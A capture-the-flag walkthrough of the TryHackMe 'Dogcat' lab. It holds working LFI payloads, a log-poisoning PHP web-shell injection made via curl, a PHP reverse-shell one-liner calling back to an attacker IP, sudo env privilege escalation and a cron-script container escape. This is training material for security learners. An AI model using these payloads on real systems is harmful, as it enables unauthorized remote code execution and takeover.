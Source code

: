 # 40 - Dogcat (LFI exploit via Log Poisoning)

Room Link --> [https://tryhackme.com/room/dogcat](https://tryhackme.com/room/dogcat)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.78.180 -sV -p-
```
{% endcode %}

The webpage is vulnerable to LFi, after trying different payloads to view the /etc/passwd but to no avail. Then i tried to use php:filters to read the sourcecode file and it worked.

We can find some filters in payloadallthethings

<figure><img src=".gitbook/assets/image (274).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://10.10.78.180/?view=php://filter/convert.base64-encode/resource=dog

# output
Here you go!PGltZyBzcmM9ImRvZ3MvPD9waHAgZWNobyByYW5kKDEsIDEwKTsgPz4uanBnIiAvPg0K

# decoding the b64 and got:
<img src="dogs/<?php echo rand(1, 10); ?>.jpg" />
```
{% endcode %}

To view the page source code:

{% code overflow="wrap" lineNumbers="true" %}
```
http://10.10.78.180/?view=php://filter/convert.base64-encode/resource=dog/../index
```
{% endcode %}

<figure><img src=".gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

Decoding the file

{% code overflow="wrap" lineNumbers="true" %}
```php
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```
{% endcode %}

```
$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
```

In line `20` we can see that the function adds a .php extension at the end of the URL so if we provide it with the ‘dog’  keyword it will convert it to dog.php and when we were giving it /etc/password it was converting it into /etc/passwd.php, Hence we need to escape this function to read files of our choice. And it also checks that the `view` parameter must contain either dog or cat, ie; `?view=dog` or `?view=cat` .

To escape this filter we must add the parameter `ext` to our query, ie `?view=dog/../../../etc/passwd&ext`  to read this file.

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://10.10.78.180/?view=dog/../../../../../etc/passwd&ext
```
{% endcode %}

<figure><img src=".gitbook/assets/image (276).png" alt=""><figcaption></figcaption></figure>

### Exploitation

We check if we can view the apache log files.

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://10.10.78.180/?view=dog/../../../../../var/log/apache2/access.log&ext

# and we can.
```
{% endcode %}

<figure><img src=".gitbook/assets/image (277).png" alt=""><figcaption></figcaption></figure>

### LFI Log Poisoning

I did a similar room with same LFI Log Poisoning exploitation [here](https://app.gitbook.com/o/HwGCj90ins0aZjh3wkjn/s/NujiiNqi7l7dVfQfwlOJ/\~/changes/96/19-archangel-lfi-exploit-via-log-poisoning).&#x20;

Using Curl

{% code overflow="wrap" lineNumbers="true" %}
```bash
curl "http://10.10.0.91/?view=dog/../../../../../var/log/apache2/access.log&ext" -H 'User-Agent: <?php system($_GET['cmd']); ?>'

# now we can execute cmds.
http://10.10.0.91/?view=dog/../../../../var/log/apache2/access.log&ext&cmd=id
```
{% endcode %}

<figure><img src=".gitbook/assets/image (278).png" alt=""><figcaption></figcaption></figure>

### Initial Access

#### Gaining Rev Shell

Pick a php one liner reverse shell code and urlencode it then pass it as cmd.

{% code overflow="wrap" lineNumbers="true" %}
```php
php -r '$sock=fsockopen("10.18.88.214",4242);exec("/bin/sh -i <&3 >&3 2>&3");'

# url encoded
php%20-r%20%27%24sock%3Dfsockopen%28%2210.18.88.214%22%2C4242%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27


# execution
http://10.10.0.91/?view=dog/../../../../var/log/apache2/access.log&ext&cmd=php%20-r%20%27%24sock%3Dfsockopen%28%2210.18.88.214%22%2C4242%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```
{% endcode %}

And i got a shell.

<figure><img src=".gitbook/assets/image (279).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

`sudo -l`

<figure><img src=".gitbook/assets/image (280).png" alt=""><figcaption></figcaption></figure>

We can execute `/bin/env` with sudo privs.

checking gtfobins for the binary `env`

`sudo env /bin/sh` - gives us root.

<figure><img src=".gitbook/assets/image (281).png" alt=""><figcaption></figcaption></figure>

Flag 2 was in `/var/www`  dir

Flag 3 `/root` dir.

Flag 4;

In the root directory we see a `.dockerenv` file which tells us we are in a docker env, so we need to break out.

Looking in the `/opt` dir there are 2 files.

{% code overflow="wrap" %}
```bash
backup.sh
backup.tar

# content of the backup.sh
root@10cd6cf04cdb:/opt/backups# cat backup.sh
cat backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```
{% endcode %}

### Breaking out of the Container

So the script basically backs up the /root/container to the backup.tar file we found. It might be running a cron job. We see that we have write permissions to the file and so, lets try writing a reverse shell into the backup.sh file.

And after some seconds we got a shell.

Done.
